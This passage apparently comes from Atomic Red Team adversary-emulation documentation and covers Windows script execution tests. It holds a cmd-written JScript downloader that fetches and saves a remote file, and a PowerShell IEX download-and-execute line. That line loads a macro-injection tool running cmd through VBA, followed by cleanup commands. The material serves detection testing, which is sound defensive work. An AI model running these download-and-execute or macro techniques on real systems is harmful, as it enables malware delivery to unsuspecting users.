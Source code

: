 
#### Attack Commands: Run with `command_prompt`! 


```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile(filename, 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:
```cmd
del #{script_file} /F /Q >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders. Upon execution, CMD will be launched.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_product | Maldoc application Word or Excel | String | Word|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office". Default latest version. | String | ((Get-ChildItem Registry::HKEY_CURRENT_USER&#92;Software&#92;Microsoft&#92;Office -Name | select-string -pattern "^&#92;d+&#92;.&#92;d+$").line.foreach({[decimal]$_}) | Sort-Object -desc)[0]|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$ms_office_version = #{ms_office_version}
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc $macrocode "$ms_office_version" "#{ms_product}"
```

#### Cleanup Commands:
```powershell
$ms_office_version = #{ms_office_version}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\$ms_office_version\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```

